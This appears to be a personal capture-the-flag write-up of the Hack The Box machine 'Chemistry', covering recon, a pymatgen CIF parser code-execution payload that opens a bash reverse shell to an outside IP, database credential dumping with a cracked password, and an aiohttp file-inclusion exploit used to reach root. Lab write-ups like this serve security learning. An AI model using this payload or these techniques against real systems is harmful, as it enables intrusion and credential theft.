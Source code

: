 #+TITLE: HTB: Chemistry
#+DATE: <2024-10-30 10:38>
#+DESCRIPTION: 
#+FILETAGS: 

* Introduction

Today's machine is Chemistry, and we're back on track:

#+NAME: IP
#+begin_src shell
echo -e "IP=10.129.229.142\nmachine=~/Chemistry" | tee -a ~/.zshrc && source ~/.zshrc && mkdir $machine && tmux 
#+end_src

* Recon

** Nmap

#+NAME: NMAP scans
#+begin_src bash
mkdir -p "$machine/nmap"; nmap -sV -Pn -sC -oA "$machine/nmap/initial" $IP; sleep 10; nmap -p- $IP -oA "$machine/nmap/fullports" 
# If ports found something extra:
nmap -p$ports -sC -sV $IP
#+end_src

** Nmap Findings
- [ ] Number of open ports: 2
  - 22, 5000
- [ ] Number of filtered ports: 998
- [ ] Target OS: Linux
- [ ] Service running on each port:
  - 22: ssh: OpenSSH 8.2p1
  - 5000: upnp? (HTTP server)
    - I see Werkzeug/3.0.3
- [ ] Check for readily available exploits
  - nothing obvious

** Web

*** 10.129.229.142, port 5000

We see that this website is a tool called "Chemistry CIF Analyzer",
allowing us to update a file and the backend /should/ analyze the
structural data within

#+NAME: Link to webpage
#+begin_example
http://10.129.229.142:5000 
#+end_example


#+label:Homepage
#+caption: Homepage
[[file:/Users/chatziiol/projects/chatziiola.github.io/content/posts/images/20241030_105015_screenshot.png]]


- [ ] Check Wappalyzer output
  - does not give absolutely anything
- [ ] Check for CMS being used/other obvious software
- [ ] See the source code for leaking information
- [ ] Open burp suite and crawl a little bit


*** User enumeration through register
- If we try to register ad ~admin~ we see that an account with that
  username already exists


*** Gobuster Directory Scanning

Off now to check with gobuster:

#+NAME: Gobuster with IP and default path
#+begin_src bash
domain=10.129.229.142:5000; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://$domain -o $machine/$domain.gobuster.big 
#+end_src

**** Gobuster Findings
#+NAME: name
#+begin_example
/dashboard            (Status: 302) [Size: 235] [--> /login?next=%2Fdashboard]
/login                (Status: 200) [Size: 926]
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/register             (Status: 200) [Size: 931]
/upload               (Status: 405) [Size: 153]
#+end_example


*** Dashboard and file structure


#+label:Dashboard
#+caption: Dashboard
[[file:/Users/chatziiol/projects/chatziiola.github.io/content/posts/images/20241030_105418_screenshot.png]]


Ok so cif files are plain-text files, and as seen [[https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f][here]], if we suppose
that the backend is pymatgen we can get it to execute python code. I
changed it just a little bit to see if we would get a pingback,
however it did not work:

#+NAME: poc exploit
#+begin_example
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.29/8000 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
#+end_example


Instead what we got was "Internal Server Error". I then tested again
to see what we get under normal execution:

#+label:Normal-execution
#+caption: Normal execution
[[file:/Users/chatziiol/projects/chatziiola.github.io/content/posts/images/20241030_110200_screenshot.png]]


At some point, I got a callback! I just had to insert the crucial part
of the payload *right after* the example file.
* Reverse as ~app~:

#+NAME: name
#+begin_example
export TERM=xterm; SHELL=/bin/bash script -q /dev/null
#+end_example

- not strange suid files
- no strange groups
- no interesting cronjobs
- checking out the files in local directory:
  - there is a database ~instance/database.db~, which I copied to my
    localhost to check it out

** The database
- sqlite 3 database
- after running our client we can see that:
- there is a table called ~user~, with
  - ids, username and passwords
  - we can get a lot of credentials this way, but the ones we probably
    care for are: admin, (app) and rosa


The ~rosa~ hash is easily breakable through hashcat
# unicorniosrosados

* Shell as ~rosa~:
First things first, we get the ~user.txt~ flag.
- We can not run sudo
  - but strangely we get "sudo_as_admin_successful"
- We are not part of any other groups
- Can't see exceptional suid files
- Nor any ordinary files
- *BUT* ~ss -tulnp~ (I always forget to check ports), and we see that
  there is a service on 8080

To get port forwarding natively while we still have our ssh cli:
#+begin_src shell
ssh rosa@$IP  -o EnableEscapeCommandline=yes
#+end_src

* Web 2.0
# Could


#+label:Site-Monitoring-dashboard
#+caption: Site Monitoring dashboard
[[file:/Users/chatziiol/projects/chatziiola.github.io/content/posts/images/20241030_120705_screenshot.png]]




We see that this page is an ad service or something like that.

#+NAME: Link to webpage
#+begin_example
http://localhost:8081 
#+end_example

Through the ~List Services~ functionality we can see that in all
probability we will be able to (re)start a service to get privesc?
- Said functionality seem to not be working
- We need to exploit this website as well

  We see that the website uses aiohttp, and a version vulnerable to
  file inclusion (3.9.1)


*** Gobuster Directory Scanning

Off now to check with gobuster:

#+NAME: Gobuster with IP and default path
#+begin_src bash
domain=localhost:8081; gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://$domain -o 8081.gobuster.big  
#+end_src

#+NAME: name
#+begin_example
/assets               (Status: 403) [Size: 14]
#+end_example

*** File Inclusion
Using the exploit [[https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh][here]] we can get access to practically every file on
the target system. I did not bother getting access (though, for the
sake of practice, I did get a shell by retrieving the ssh key): we can
just get root.txt 

